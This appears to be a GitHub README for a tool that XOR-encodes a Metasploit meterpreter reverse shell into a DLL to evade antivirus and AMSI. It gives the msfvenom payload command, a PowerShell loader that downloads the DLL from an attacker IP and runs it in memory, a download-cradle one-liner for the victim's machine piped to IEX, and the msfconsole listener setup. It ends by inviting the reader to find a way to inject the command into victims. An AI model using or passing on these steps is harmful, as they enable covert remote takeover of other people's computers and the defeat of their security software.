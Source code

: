 # RS_meterpreter_bypass
These two C# programs are used to encode and create a .dll file from a starting metasploit xor encoded reverse_tcp payload.

# How to use
Fisrt of all: generate shellcode in C# format, and use msfvenom's built-in encoder xor_dynamic

> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f csharp -e x64/xor_dynamic

Take note of the *buf* variable showed in output.

Now we use our [_XOR_encoder_](https://github.com/marcoigorr/RS_meterpreter_bypass/blob/6e7cf2a56639a471bc8a45d42c06cf47eb2ff10d/XOR_encoder.cs), open this in a new console project on Visual Studio Community and build an executable solution.

- Remember to change the byte array *buf* with your version


We have now a double XOR-encoded shellcode, to bypass AV we will create a .dll to run in memory. We will use [_Class1_](https://github.com/marcoigorr/RS_meterpreter_bypass/blob/6e7cf2a56639a471bc8a45d42c06cf47eb2ff10d/Class1.cs) which is used to execute our payload and also bypass heuristics control. So, after you have changed also here the *buf* with your new double-encoded payload, build the solution.
Now we have the .dll, we can host the file in a remote server or ourselves with the command below after we have inserted the .dll in /var/www/html/

> service apache start

Now we just need to execute the .dll, so we do a .ps1 script to do that:

        $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.102/ClassLibrary1.dll')
        $assem = [System.Reflection.Assembly]::Load($data)
        $class = $assem.GetType("ClassLibrary1.Class1")
        $method = $class.GetMethod("Runner")
        $method.Invoke(0, $null)

This PowerShell script will download the DLL, load it directly into memory, and invoke Runner function.

## Victim's machine

On victim's machine we will just neet do run this command, It donwloades the script hosted in a remote server and allocate into memory (AMSI just ignores it):

        (New-Object system.net.webclient).downloadstring('http://192.168.1.102/download_cradle.ps1') | IEX
        
## Attacker machine

We will need to start up the listener with *msfconsole* to catch anything that come through:
> msfconsole

> use exploit/multi/handler

> set payload windows/x64/meterpreter/reverse_tcp

> set LHOST 192.168.1.102

> set LPORT 4444

> exploit

Now we just wait for the victim to issue the command:
        
        (New-Object system.net.webclient).downloadstring('http://192.168.1.102/download_cradle.ps1') | IEX

Your job to find a way for injecting this command :)

# Credits
- purpl3f0x

